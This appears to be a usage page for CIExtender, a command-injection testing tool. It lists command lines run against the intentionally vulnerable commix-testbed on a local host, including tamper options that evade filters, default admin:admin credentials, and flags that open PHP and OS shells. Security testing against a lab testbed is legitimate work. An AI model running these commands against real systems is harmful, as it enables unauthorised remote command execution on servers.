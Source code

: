 ```

Classic double-quote example
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/classic_double_quote.php?addr=* -v1 --flush-session

Classic blacklisting example
(custom tamper script)
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/classic_blacklisting.php?addr=* -v1 --flush-session --tamper=shell_tamper

Classic non-space example
(custom tamper script)
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/classic_non_space.php?addr=* -v1 --flush-session --tamper=bash_no_space

Classic hashing example
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/classic_hash.php?string=* -v1 --flush-session

Classic example & Basic HTTP Authentication
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/classic_basic_auth.php?addr=* -v1 --flush-session --auth-type "BASIC" --auth-cred="admin:admin"

Classic example & Digest HTTP Authentication
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/classic_digest_auth.php?addr=* -v1 --flush-session --auth-type "DIGEST" --auth-cred="admin:admin"

Blind regular example
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/blind.php?addr=a* -v1 --flush-session --time-sec 40

Double Blind regular example
python3 CIExtender.py -u http://www.local.con/commix-testbed/scenarios/regular/GET/double_blind.php?addr=a* -v1 --flush-session --time-sec 40

Eval regular example
Detection::
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/eval.php?user=* -v1 --flush-session 

PHP shell:
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/eval.php?user=* -v1 --flush-session --sql-shell
php-shell> phpversion()

OS shell
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/eval.php?user=* -v1 --flush-session --os-shell
os-shell> whoami

Eval (Base64) regular example
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/eval_b64.php?user=* -v1 --flush-session --tamper=base64encode

Preg_match() regular example
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/preg_match.php?addr=127.0.0.1* -v1 --flush-session

Preg_match() blind example
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/preg_match_blind.php?addr=127.0.0.1* -v1 --flush-session --time-sec 40

Preg_Replace() regular example //not with new php
```
